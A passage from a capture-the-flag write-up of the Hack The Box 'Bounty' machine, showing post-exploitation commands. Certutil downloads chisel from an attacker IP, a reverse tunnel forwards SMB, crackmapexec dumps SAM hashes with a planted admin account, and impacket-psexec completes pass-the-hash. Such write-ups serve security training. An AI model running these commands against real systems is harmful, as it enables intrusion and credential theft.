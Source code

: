 > **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.14/chisel.exe ./chisel.exe
.\chisel.exe
```

> **Attacker Machine**:

```bash
./chisel server --reverse -p 1234
```

> **Victime Machine**:

```cmd
.\chisel.exe client 10.10.14.14:1234 R:445:127.0.0.1:445
```

> **Attacker Machine**:

```bash
lsof -i:445
crackmapexec smb 127.0.0.1
```

<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bounty_writeup/Bounty_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I can also validate with `crackmapexec` using the **SMB** service the account I had previously created with **Juicy Potato** and I can now dump the **SAM** hashes of all the accounts in the system because the account belongs to the localgroup **Administrators**. Finally with `impacket-psexec` I perform a **Pass The Hash** attack and access the system with the account with maximum privileges, I can now access the content of the two flags to enter the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform and validate the engagement of the box.

> **Attacker Machine**:

```bash
crackmapexec smb 127.0.0.1 -u 'old_b0y' -p 'oldboy123!$'
crackmapexec smb 127.0.0.1 -u 'old_b0y' -p 'oldboy123!$' --sam
impacket-psexec WORKGROUP/Administrator@127.0.0.1 cmd.exe -hashes :89d----b686
```

